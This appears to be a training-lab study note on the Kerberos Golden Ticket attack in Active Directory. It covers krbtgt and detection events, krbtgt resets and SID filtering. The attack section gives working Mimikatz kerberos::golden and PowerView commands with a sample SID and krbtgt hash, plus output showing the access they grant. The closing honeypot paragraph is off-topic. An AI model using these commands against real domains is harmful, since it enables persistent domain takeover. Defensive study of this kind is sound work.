



# windows_attack_defense
### Golden Ticket Attack
The Kerberos Golden Ticket is an attack in which threat agents can create/generate tickets for any user in the Domain, therefore effectively acting as a Domain Controller.

When a Domain is created, the unique user account krbtgt is created by default; krbtgt is a disabled account that cannot be deleted, renamed, or enabled. The Domain Controller's KDC service will use the password of krbtgt to derive a key with which it signs all Kerberos tickets. This password's hash is the most trusted object in the entire Domain because it is how objects guarantee that the environment's Domain issued Kerberos tickets.

Therefore, any user possessing the password's hash of krbtgt can create valid Kerberos TGTs. Because krbtgt signs them, forged TGTs are considered valid tickets within an environment. Previously, it was even possible to create TGTs for inexistent users and assign any privileges to their accounts. Because the password's hash of krbtgt signs these tickets, the entire domain blindly trusts them, behaving as if the user(s) existed and possessed the privileges inscribed in the ticket.

The Golden Ticket attack allows us to escalate rights from any child domain to the parent in the same forest. Therefore, we can escalate to the production domain from any test domain we may have, as the domain is not a security boundary.

This attack provides means for elevated persistence in the domain. It occurs after an adversary has gained Domain Admin (or similar) privileges.

To perform the Golden Ticket attack, we can use Mimikatz with the following arguments:
- /domain: The domain's name.
- /sid: The domain's SID value.
- /rc4: The password's hash of krbtgt.
- /user: The username for which Mimikatz will issue the ticket (Windows 2019 blocks tickets if they are for inexistent users.)
- /id: Relative ID (last part of SID) for the user for whom Mimikatz will issue the ticket.

Additionally, advanced threat agents mostly will specify values for the /renewmax and /endin arguments, as otherwise, Mimikatz will generate the ticket(s) with a lifetime of 10 years, making it very easy to detect by EDRs:
- /renewmax: The maximum number of days the ticket can be renewed.
- /endin: End-of-life for the ticket.

**Note:**
we need to obtain the password's hash of krbtgt and the SID value of the Domain

```
. .\PowerView.ps1
Get-DomainSID

# mimikatz
kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt

# verify using klist
C:\Mimikatz>klist

Current LogonId is 0:0x9cbd6

Cached Tickets: (1)

#0>     Client: Administrator @ eagle.local
        Server: krbtgt/eagle.local @ eagle.local
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 10/13/2022 13/10/2022 06.28.43 (local)
        End Time:   10/13/2022 13/10/2022 06.36.43 (local)
        Renew Time: 10/13/2022 13/10/2022 06.35.43 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

# testing out the new tgt
C:\Mimikatz>dir \\dc1\c$

 Volume in drive \\dc1\c$ has no label.
 Volume Serial Number is 2CD0-9665

 Directory of \\dc1\c$

15/10/2022  08.30    <DIR>          DFSReports
13/10/2022  13.23    <DIR>          Mimikatz
01/09/2022  11.49    <DIR>          PerfLogs
28/11/2022  01.59    <DIR>          Program Files
01/09/2022  04.02    <DIR>          Program Files (x86)
13/12/2022  02.22    <DIR>          scripts
07/08/2022  11.31    <DIR>          Users
28/11/2022  02.27    <DIR>          Windows
               0 File(s)              0 bytes
               8 Dir(s)  44.947.984.384 bytes free
```


### Golden Ticket Detection
Correlating users' behavior is the best technique to detect abuse of forged tickets. Suppose we know the location and time a user regularly uses to log in. In that case, it will be easy to alert on other (suspicious) behaviors—for example, consider the account 'Administrator' in the attack described above. If a mature organization uses Privileged Access Workstations (PAWs), they should be alert to any privileged users not authenticating from those machines, proactively monitoring events with the ID 4624 and 4625 (successful and failed logon).

Domain Controllers will not log events when a threat agent forges a Golden Ticket from a compromised machine. However, when attempting to access another system(s), we will see events for successful logon originating from the compromised machine:



Another detection point could be a TGS service requested for a user without a previous TGT. However, this can be a tedious task due to the sheer volume of tickets (and many other factors). If we go back to the attack scenario, by running dir \\dc1\c$ at the end, we generated two TGS tickets on the Domain Controller:





The only difference between the tickets is the service. However, they are ordinary compared to the same events not associated with the Golden Ticket.

If SID filtering is enabled, we will get alerts with the event ID 4675 during cross-domain escalation.

**Note:**
If an Active Directory forest has been compromised, we need to reset all users' passwords and revoke all certificates, and for krbtgt, we must reset its password twice (in every domain). The password history value for the krbtgt account is 2. Therefore it stores the two most recent passwords. By resetting the password twice, we effectively clear any old passwords from the history, so there is no way another DC will replicate this DC by using an old password. However, it is recommended that this password reset occur at least 10 hours apart from each other (maximum user ticket lifetime); otherwise, expect some services to break if done in a shorter period.

### Golden Ticket Prevention
Preventing the creation of forged tickets is difficult as the KDC generates valid tickets using the same procedure. Therefore, once an attacker has all the required information, they can forge a ticket. Nonetheless, there are a few things we can and should do:

- Block privileged users from authenticating to any device.
- Periodically reset the password of the krbtgt account; the secrecy of this hash value is crucial to Active Directory. When resetting the password of krbtgt (regardless of the password's strength), it will always be overwritten with a new randomly generated and cryptographically secure one. Utilizing Microsoft's script for changing the password of krbtgt KrbtgtKeys.ps1 is highly recommended as it has an audit mode that checks the domain for preventing impacts upon password change. It also forces DC replication across the globe so all Domain Controllers sync the new value instantly, reducing potential business disruptions.
- Enforce SIDHistory filtering between the domains in forests to prevent the escalation from a child domain to a parent domain (because the escalation path involves abusing the SIDHistory property by setting it to that of a privileged group, for example, Enterprise Admins). However, doing this may result in potential issues in migrating domains.


### Golden Ticket Honeypot
However, suppose the honeypot user is the only account with Kerberos Pre-Authentication not required. In that case, there might be better detection methods, as it would be very obvious for advanced threat actors that it is a honeypot user, resulting in them avoiding interactions with it. (I did previously hear from an organization that needed one of these accounts (application related) that the 'security through obscurity' behind having only one of these accounts may save them, as attackers will avoid going after it thinking it is a honeypot user. While it may be true in some instances, we should not let a glimpse of hope dictate the security state of the environment.)